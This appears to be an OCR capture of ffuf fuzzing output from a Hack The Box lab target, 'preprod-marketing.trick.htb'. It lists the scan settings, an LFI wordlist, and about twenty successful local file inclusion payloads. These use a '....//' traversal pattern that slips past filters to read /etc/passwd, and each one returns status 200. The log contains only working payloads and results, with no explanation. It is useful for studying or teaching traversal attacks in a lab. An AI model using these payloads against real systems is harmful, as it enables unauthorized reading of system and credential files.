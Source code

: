 	       v1.3.1 Kali Exclusive <3
	________________________________________________
	
	 :: Method           : GET
	 :: URL              : http://preprod-marketing.trick.htb/index.php?page=FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/LFI/file_inclusion_linux.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 1
	________________________________________________
	
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42]
	:: Progress: [2249/2249] :: Job [1/1] :: 797 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
	